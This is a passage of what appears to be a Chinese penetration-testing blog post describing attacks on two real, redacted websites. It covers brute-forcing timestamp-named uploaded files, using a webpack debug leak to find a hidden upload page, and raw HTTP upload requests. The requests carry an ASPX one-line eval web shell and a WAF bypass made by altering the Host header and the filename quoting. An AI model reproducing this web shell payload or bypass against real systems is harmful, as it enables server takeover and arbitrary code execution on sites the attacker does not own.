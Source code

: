 <img alt="" src="https://img-blog.csdnimg.cn/d41c2c5463ac408ba542fa0676abe3a7.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5riX6YCP5rWL6K-V6ICB6bifLeS5nemdkg==,size_20,color_FFFFFF,t_70,g_se,x_16"/> 

之前我们看到使用的格式为yyyyMMddHHmmssfff作为文件名，然后直接截取后缀作为ext，而且我们有了具体的路径，那么只需要爆破时间戳文件名即可拿下该站点，以前还没有这么做过，不妨试试。

**爆破时间戳**

使用Powershell生成时间戳，然后此时在Burp按下go发送请求包<br/> powershell -c Get-Date -Format yyyyMMddHHmmssfff

再爆破后面5位数字，也就是ssfff（由于电脑上的时间不一定准，有时候甚至可能要爆破6位）<br/> 不知道等了多久

<img alt="" src="https://img-blog.csdnimg.cn/d04e667946504779a90ab003cf8b75af.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5riX6YCP5rWL6K-V6ICB6bifLeS5nemdkg==,size_16,color_FFFFFF,t_70,g_se,x_16"/> 

运气真好，后面的就不多说了。

### 站点2：文件上传

找到上传接口

打开网站[http://xxxx:880/zwwpt/#/就发现存在一个webpack](http://xxxx:880/zwwpt/#/%E5%B0%B1%E5%8F%91%E7%8E%B0%E5%AD%98%E5%9C%A8%E4%B8%80%E4%B8%AAwebpack) debug模式未关闭，查看JS发现上传接口

[http://xxxxxx:880/zwwpt/data/menuData.json](http://xxxxxx:880/zwwpt/data/menuData.json)<br/> 发现了一个隐藏的html页面，这个页面在前端的功能点是点不到的

<img alt="" src="https://img-blog.csdnimg.cn/90e36f96fbd64d9ba07384d4354d9236.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5riX6YCP5rWL6K-V6ICB6bifLeS5nemdkg==,size_20,color_FFFFFF,t_70,g_se,x_16"/> 

[http://xxxxxx:880/jtwxt/xgjt/security_risk.html](http://xxxxxx:880/jtwxt/xgjt/security_risk.html)<br/> 点击附件上传抓包

<img alt="" src="https://img-blog.csdnimg.cn/641fdc57ae27421a9ca2428f696cee21.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5riX6YCP5rWL6K-V6ICB6bifLeS5nemdkg==,size_19,color_FFFFFF,t_70,g_se,x_16"/> 

发现存在waf，当拦截住waf的时候，会返回404，大概数据包就是这样（省略了一些其他的无用参数）

```
POST /jtwpt/Ashxs/BaseInfoTransfer.ashx HTTP/1.1
Host: xxxxx.cn:880
Cookie: Hm_lvt_a8b89d1c622d63c547c83ec412cc50ef=1631849663; Hm_lvt_69968305fa176c802589452987ebddc8=1631858810
Connection: close

------WebKitFormBoundary7PCqG5iQ5vwLZ6AB
Content-Disposition: form-data; name="uploadfile[]"; filename="1.aspx"
Content-Type: image/jpeg

&lt;%@ Page Language="Jscript"%&gt;&lt;%eval(Request.Item["pass"],"unsafe");%&gt;

------WebKitFormBoundary7PCqG5iQ5vwLZ6AB--
```

 

**绕过**

修改HOST:<br/> xxxx.cn:880为xxxx.cn或xxx.cn:8888（不为880端口应该都可以）

```
POST /jtwpt/Ashxs/BaseInfoTransfer.ashx HTTP/1.1
Host: xxxxx.cn
Cookie: Hm_lvt_a8b89d1c622d63c547c83ec412cc50ef=1631849663; Hm_lvt_69968305fa176c802589452987ebddc8=1631858810
Connection: close

------WebKitFormBoundary7PCqG5iQ5vwLZ6AB
Content-Disposition: form-data; name="uploadfile[]"; filename="1.aspx
Content-Type: image/jpeg

1111
------WebKitFormBoundary7PCqG5iQ5vwLZ6AB--
```
